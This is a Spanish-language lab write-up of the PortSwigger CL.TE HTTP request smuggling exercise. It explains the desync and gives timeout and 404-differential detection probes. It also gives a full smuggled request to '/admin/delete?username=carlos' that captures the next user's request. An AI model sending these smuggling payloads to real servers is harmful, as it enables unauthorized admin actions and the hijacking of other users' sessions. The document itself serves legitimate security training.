

---
aliases:
  - HTTP Smuggling 001 - CL.TE
  - cl.te
tags:
  - vuln/http-smuggling
  - example
  - portswigger
---

# 001 — CL.TE

> Lab: [Basic CL.TE vulnerability](https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te) · **Practitioner** · técnica → [[vulnerabilities/008-http_smuggling/http-smuggling|entry point]]

## Concepto

**Front-end usa `Content-Length`, back-end usa `Transfer-Encoding`.**

- **Front (CL):** cuenta bytes → reenvía **todo** el cuerpo (el CL cubre hasta el último byte, incluida tu request colada).
- **Back (TE):** ve `chunked` → corta en el chunk `0` (`0\r\n\r\n` = "acá termina"). **Lo que viene después del `0` queda en su buffer** y lo interpreta como el **inicio de la siguiente request**. Eso es lo colado.



---

## Detección · Caso A (timeout)

**No contamina el socket** → es la sonda **segura** para el timing.

```http
POST /about HTTP/1.1
Host: TU-LAB.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 4

1
Z
Q
```

**Qué pasa byte a byte:**
- `Content-Length: 4` → el front reenvía **solo 4 bytes**: `1` `\r` `\n` `Z`. El `\r\n` y la `Q` **los descarta** (por eso **no queda nada pegado** para el próximo usuario ✅).
- El back (TE) lee el chunk de tamaño `1`, consume la `Z`, y **queda esperando** el `\r\n` de cierre del chunk + el chunk siguiente… que nunca llegan → **se cuelga** → **timeout**.
- Si tarda ≥ umbral → **CL.TE confirmado**. Si responde rápido → no es CL.TE.

> Corré una **baseline** (request normal) primero: si el server ya es lento, el timeout no prueba nada. → script [[vulnerabilities/008-http_smuggling/scripts/detect.py|detect.py]].

## Detección · Caso B (404 diferencial) — preferido

En vez de colgar nada, colás un `GET /404` y mirás que **tu segunda request** reciba el `404`:

```http
POST / HTTP/1.1
Host: TU-LAB.web-security-academy.net
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

- El front (CL:35) reenvía **todo** el cuerpo. `35` = longitud total de `0\r\n\r\nGET /404 HTTP/1.1\r\nX-Ignore: X`.
- El back (TE) corta en `0\r\n\r\n`; deja colado `GET /404 HTTP/1.1\r\nX-Ignore: X`.
- **Mandá esta request y justo después una normal a `/`.** La normal se pega detrás del prefijo colado → el back procesa `GET /404 …` → responde **`404`**. Si lo ves → **CL.TE confirmado**, sin timeouts ni riesgo para otros.

---

## Cómo explotarlo

> [!info] Cómo leer los colores
> <span style="color:#d17a22"><b>■ Naranja = lo que cambiás VOS</b></span> (tu decisión: qué request colar). <span style="color:#3d8bfd"><b>■ Azul = la CONSECUENCIA</b></span> (se recalcula sola a partir del cambio naranja). En CL.TE la regla es simple: **cambiás el <span style="color:#d17a22">SMUGGLED</span> → se recalcula el <span style="color:#3d8bfd">Content-Length</span>** (= longitud total del cuerpo).

El `SMUGGLED` va **después** del chunk `0`. El CL exterior debe cubrir **todo** el cuerpo:

<pre>
POST / HTTP/1.1
Host: TU-LAB.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: <span style="color:#3d8bfd"><b>13</b></span>
Transfer-Encoding: chunked

0

<span style="color:#d17a22"><b>SMUGGLED</b></span>
</pre>

**El conteo del <span style="color:#3d8bfd">CL exterior</span>** (`13` cuando <span style="color:#d17a22">SMUGGLED</span> son 8 chars):

| Bytes | | |
| --- | --- | --- |
| `0` | 1 | chunk de cierre |
| `\r\n\r\n` | 2-5 | cierre del chunk (el back corta acá) |
| <span style="color:#d17a22">`SMUGGLED`</span> | 6-13 | lo colado (8 chars) |
| **total** | <span style="color:#3d8bfd">**13**</span> | **← este es el `Content-Length`** |

> Cambiá el <span style="color:#d17a22">SMUGGLED</span> y el <span style="color:#3d8bfd">CL</span> **cambia por consiguiente** = longitud total del cuerpo. El script [[vulnerabilities/008-http_smuggling/scripts/cl_te.py|cl_te.py]] lo recalcula solo.

**El <span style="color:#d17a22">SMUGGLED</span> en serio** — una request completa, no una palabra. El truco es un **`Content-Length` grande** (dentro del smuggled) para que el back **espere** y se **coma el inicio de la request del próximo usuario**:

<pre>
POST / HTTP/1.1
Host: TU-LAB.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: <span style="color:#3d8bfd"><b>&lt;longitud total → recalcular&gt;</b></span>
Transfer-Encoding: chunked

0

<span style="color:#d17a22"><b>GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1</b></span>
</pre>

- <span style="color:#d17a22"><b>Naranja</b></span>: vos elegís toda la request colada (incluido su propio `Content-Length: 15`, que es lo que la hace "esperar").
- <span style="color:#3d8bfd"><b>Azul</b></span>: el CL exterior = longitud de **todo** el cuerpo desde el `0`. Cada vez que tocás el naranja, recalculás este número.

**Mandalo 2 veces:** la 1ª deja el prefijo esperando; la 2ª (o la de la víctima) lo dispara.

## Verificación

- **Prueba de vida (lab básico):** colá `GPOST / HTTP/1.1` como prefijo y mandá 2 veces → la 2ª respuesta trae **`Unrecognized method GPOST`** → el desync anda.
- **Impacto:** la 2ª request devuelve el panel/acción del smuggled (o `carlos` borrado). Si el back se quedó esperando por el CL grande, la request de la víctima completa el cuerpo → capturás/ejecutás en su nombre.

## Detalles que se pasan por alto

- **CL exterior mal contado = no cuela.** Es el error #1. Contá `\r\n` como 2 bytes.
- **Repeater:** desactivá **"Update Content-Length"**, si no Burp te lo pisa.
- El chunk `0` **necesita su `\r\n\r\n`** completo para que el back cierre ahí.
- La sonda de detección CL.TE es **segura** (no ensucia el socket); no así la de TE.CL → ver siguiente.

→ Siguiente: [[vulnerabilities/008-http_smuggling/examples/002-te-cl|002 · TE.CL (al revés, y contamina el socket)]]
